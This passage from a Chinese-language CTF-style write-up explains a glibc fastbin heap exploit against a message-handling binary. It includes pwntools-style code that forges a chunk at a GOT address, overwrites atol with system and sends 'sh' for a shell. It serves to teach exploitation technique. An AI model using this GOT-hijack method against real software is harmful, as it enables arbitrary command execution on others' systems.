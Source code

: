 
<pre class="brush:bash;toolbar:false" nodeIndex="119">
new_pdu(0, 0, "AA"*0x10, True)
new_pdu(0, 0, "BB"*0x30, True)
</pre>
<p nodeIndex="120"><span nodeIndex="339">堆块就会被分为下面这个图的形式。（中间过程请读者自行按照3.3中的规则去画）</span></p>
<div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809663568/8"/></div>
<p nodeIndex="122"><span nodeIndex="341">而在调试时可以发现，实际中堆布局并不如此，libc还有一个细节，在malloc(0x30)时，先发现0x40大小的fastbin是空的，继而去寻找unsorted bins，发现其中有一个0x50大小的chunk，本应该切分0x40的部分给malloc的返回值，而由于剩下的0x10大小会变成一个碎片，因而libc的策略是直接将这0x50的空间全部返回给申请者。因而实际上在进行上述两个new\_pdu操作后，堆分布如下：</span></p>
<div id="RIL_IMG_9" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809663568/9"/></div>
<p nodeIndex="124"><span nodeIndex="343">调试状态中可以看到的确如此，</span></p>
<div id="RIL_IMG_10" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809663568/10"/></div>
<p nodeIndex="126"><span nodeIndex="345">至此我们已经成功地在0x40大小的fastbins中成功留下了一个堆块，我们千方百计达成此目的，因为libc在对fastbin的管理中还有一次检查操作，在从0x40大小的fastbin链表中取出堆块时，如果检测到该堆块的size不为0x40-0x4f,则会失败退出，因而我们覆盖的时候随便填一个值是不可行的,必须是伪造好size值的堆块，而在got表中，没有被resolve的函数地址所保存的值为plt表的地址，即0x40xxxx，经过指令对齐操作，便可以将其变成0x00000040，此时内存中便有一个DWORD的值为0x40，可用此绕过libc的检测。此处需注意libc的检查只需要满足低32位是0x4x即可，高32位即使有值也可以通过检查。</span></p>
<p nodeIndex="127"><span nodeIndex="346">直接查看got表中0x604018的地址时，可得其中的值如下：</span></p>
<div id="RIL_IMG_11" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809663568/11"/></div>
<p nodeIndex="129"><span nodeIndex="348">但是在手动将其值调整一下时，可以得到这样的结果：</span></p>
<div id="RIL_IMG_12" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809663568/12"/></div>
<p nodeIndex="131"><span nodeIndex="350">在0x60404a处存储的值即为0x40。接着发送构造好的payload：</span></p>
<pre class="brush:cpp;toolbar:false" nodeIndex="132">
new_pdu(0, 0, "AA"*0x10, True)
new_pdu(0, 0, "BB"*0x30, True)
fake_fd = convert(0x604042) #0x60404a is 0xxxx00000000040 , 0x604042->size=0x40
offset  = 0x61adb0-0x61ac20
new_pdu(0, offset, fake_fd, True)
</pre>
<p nodeIndex="133"><span nodeIndex="351">这段代码可以将上面构造的0x61adb0处fastbin的fd覆盖掉成0x60404a-8，下次申请两次，即可申请到这个伪造的堆块。此处需要减8，是因为在64位系统下，libc在取chunk->size的值时，实际上是进行的+8操作。</span></p>
<p nodeIndex="134"><span nodeIndex="352">最后（终于到了最后），我们申请两次0x40大小的串即可向got表(0x60404a+8)。在写的过程中，可以选择将atol函数覆盖为任意地址，比如，system函数的地址。那么下次再输入seq_num等值时，就会触发system("your input")，从而达到任意命令执行的效果。这里需要注意为了使程序运行正常，需要先把got表中已经resolve的地方给换回去，换成plt表中相应的地址，关于这部分的内容可阅读《Linux中的GOT和PLT到底是个啥？》，英文原文《PLT and GOT – the key to code sharing and dynamic libraries》。</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="135">
payload = "66"*6 # libc_start_main
payload += convert(0x400b26)  # resolve fgets 0x400b26
payload += convert(0x400b36)  # resolve strlen 0x400b36
payload += convert(libc_base + libc.symbols['system']) # hijack atol
payload = payload.ljust(0x60, '0')
new_pdu(0, 0, payload , False ) # payload
</pre>
<p nodeIndex="136"><span nodeIndex="353">至此已经成功地将atol函数替换成了system的地址，接着，只需要再send("sh")，即可get shell。</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="137">
io.sendlineafter("SEQ #:", "sh")
</pre>
<div id="RIL_IMG_13" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809663568/13"/></div>
